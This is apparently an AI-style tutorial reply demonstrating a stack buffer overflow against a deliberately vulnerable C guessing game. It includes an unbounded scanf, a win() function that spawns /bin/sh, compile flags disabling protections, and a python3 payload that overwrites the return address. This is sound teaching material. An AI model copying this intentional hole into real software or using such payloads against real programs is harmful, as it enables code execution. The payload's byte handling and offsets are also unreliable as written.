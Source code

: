 
To simulate a real buffer overflow, you need to let the user input a string into a buffer, like so:


---

Modified vulnerable version (intentionally broken)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

void win() {
    printf("YOU HAVE BEEN HACKED! WIN FUNCTION EXECUTED\n");
    system("/bin/sh");
}

int main() {
    int secret;
    int guess;
    char buffer[32];  // small buffer to overflow

    srand(time(NULL));
    secret = rand() % 100 + 1;

    printf("pls guess a number: ");
    fflush(stdout);

    scanf("%s", buffer); // vulnerability here: no bounds check!

    guess = atoi(buffer);

    if (guess < secret) {
        printf("too small\n");
    } else if (guess > secret) {
        printf("too much\n");
    } else {
        printf("congrats\n");
    }

    printf("you guessed : %d\n", guess);
    printf("secret num. : %d\n", secret);

    return 0;
}
```

---

Exploit Simulation Setup

1. What we aim to do:

Overflow buffer[32] with crafted input → overwrite return address → point to win() function → get shell or win message.


---

2. Compile with vulnerable flags:

`gcc vuln.c -o vuln -fno-stack-protector -z execstack -no-pie`

3. Find win() address with objdump:

`objdump -d ./vuln | grep win`

Example:

080491e2 <win>:


---

4. Build payload (simulate manually for now)

Let’s say:

buffer takes 32 bytes

Saved EBP = 4 bytes

Return address is next (total = 36 bytes before overwrite)

win() = 0x080491e2


We construct input like:

`python3 -c 'print("A"*36 + "\xe2\x91\x04\x08")' > input.txt`

Then run:

`./vuln < input.txt`


---

What happens?

Program runs, takes your input into buffer via scanf("%s", buffer) → overflows past buffer → overwrites return address → jumps to win() → shell or print:

`YOU HAVE BEEN HACKED! WIN FUNCTION EXECUTED`


---

Important Note:

This simulation only works with:

No PIE (`-no-pie`)

No stack protector (`-fno-stack-protector`)

Executable stack (`-z execstack`) — for shellcode injection if you go that far



---

Summary:

> You wanted a buffer overflow demo?
There it is: classic C-style ownage, just like the old days, Nii.
One bad scanf("%s", buffer) =
"Game Over" if Blank is playing.

